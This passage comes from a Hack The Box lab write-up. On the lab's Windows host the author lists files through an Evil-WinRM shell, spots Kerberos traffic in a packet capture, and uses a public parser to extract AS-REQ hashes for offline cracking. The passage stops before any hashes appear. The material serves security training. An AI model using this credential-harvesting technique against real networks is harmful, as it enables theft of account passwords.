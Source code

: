 There are two files in the `C:\Users\Sara.B\Documents\WS-01`
```
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> dir


    Directory: C:\Users\Sara.B\Documents\WS-01


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap

```
Let's download them to check what information we can gather

**Description.txt**
```
��The workstation 01 is not able to open the "Reports" smb shared folder which is hosted on DC01.
When a user tries to input bad credentials, it returns bad credentials error.
But when a user provides valid credentials the file explorer freezes and then crashes!
```

**WS-01_PktMon.pcap** 
We can use `wireshark` to check it and found `kerberos` related content
![](images/Pasted%20image%2020250721153812.png)
Let's search how to exploit it from google 
![](images/Pasted%20image%2020250721153857.png)
We can use this exploit script to help us find something useful 
`https://github.com/jalvarezz13/Krb5RoastParser`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate/Krb5RoastParser]
└─$ python3 krb5_roast_parser.py ../WS-01_PktMon.pcap as_req >>hash.txt
                                                                                      
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate/Krb5RoastParser]
└─$ cat hash.txt                    
```